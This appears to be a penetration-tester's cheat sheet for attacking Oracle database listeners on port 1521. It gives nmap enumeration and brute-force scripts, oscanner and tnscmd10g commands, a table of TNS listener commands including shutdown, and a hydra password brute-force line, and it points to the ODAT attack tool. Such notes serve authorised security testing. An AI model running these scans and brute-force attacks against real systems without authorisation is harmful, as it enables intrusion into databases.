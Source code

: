 ## Nmap

```
nmap -p 1521 -A $ip

nmap -n -v -sV -Pn -p 1521 –script=oracle-enum-users –script-args sid=ORCL,userdb=users.txt $ip

nmap --script "oracle-tns-version" -p 1521 -T4 -sV <IP>
# TNS listener version

nmap --script=oracle-sid-brute $ip
nmap  -n -v -sV -Pn -p 1521 --script=oracle-brute $ip
# Brute-Force Account
```

## oscanner

```
oscanner -s $ip -P 1521
```

## tnscmd10g
`A tool to prod the oracle tnslsnr process`

```
tnscmd10g version -h 192.168.1.101
tnscmd10g status -h 192.168.1.101
```

# TNS listener commands
| Command     | Purpose                                                                 |
|-------------|-------------------------------------------------------------------------|
| ping        | Ping the listener                                                       |
| version     | Provide output of the listener version and platform information       |
| status      | Return the current status and variables used by the listener           |
| services    | Dump service data                                                       |
| debug       | Dump debugging information to the listener log                           |
| reload      | Reload the listener configuration file                                  |
| save_config | Write the listener configuration file to a backup location             |
| stop        | Invoke listener shutdown                                                |
## Brute Force
**if listener is password protected**

```
hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

# Enumeration tool

## [Odat](https://github.com/quentinhardy/odat) - Oracle Database Attacking Tool